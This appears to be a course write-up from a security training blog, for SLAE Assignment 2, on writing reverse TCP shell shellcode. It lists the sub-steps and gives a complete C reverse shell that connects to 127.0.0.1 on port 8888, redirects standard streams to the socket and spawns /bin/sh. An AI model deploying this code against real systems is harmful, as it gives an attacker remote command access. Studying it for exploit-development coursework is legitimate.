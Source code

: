 ```yaml
---
redirect_to: 'https://thesinkinthewardrobe.com/slae-assignment-02/'
---
```


# Assignment #2 - Shellcode for a Reverse TCP Shell 

**Exercise description:** Creating shellcode for running a TCP reverse shell. The solution must allow to configure both the connection port and the IP easily, and the shellcode must execute a shell on a successful connection.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_2/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

In order to create a TCP reverse shell, it is necessary to achieve the following sub-tasks:

1. Generating a TCP socket
2. Connecting the socket to a remote port
3. Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
4. Spawning the shell

An example of a reverse TCP shell using C code would be the following:

````
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
 
int main (int argc, char **argv)
{
  int scktd;
  struct sockaddr_in client;
 
  client.sin_family = AF_INET;
  client.sin_addr.s_addr = inet_addr("127.0.0.1");
  client.sin_port = htons(8888);

  scktd = socket(AF_INET,SOCK_STREAM,0);
  connect(scktd,(struct sockaddr *)&client,sizeof(client));

  dup2(scktd,0); // STDIN
  dup2(scktd,1); // STDOUT
  dup2(scktd,2); // STDERR

  execl("/bin/sh",NULL,NULL);

  return 0;
}
````
``Reverse TCP shell in C language``
